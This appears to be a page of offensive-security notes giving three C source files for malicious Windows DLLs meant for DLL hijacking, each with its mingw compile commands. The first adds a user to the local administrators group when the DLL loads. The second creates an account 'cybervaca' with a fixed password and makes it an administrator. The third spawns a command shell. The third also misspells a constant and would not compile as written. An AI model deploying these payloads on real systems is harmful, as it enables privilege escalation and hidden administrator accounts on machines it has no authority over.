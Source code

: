 ```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
if (dwReason == DLL_PROCESS_ATTACH){
system("cmd.exe /k net localgroup administrators user /add");
ExitProcess(0);
}
return TRUE;
}
```

```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
exit(0);
return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
owned();
return 0;
}
```

```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
switch (ul_reason_for_call){
case DLL_PROCESS_ATTACH:
CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DEATCH:
break;
}
return TRUE;
}
```
## Referências
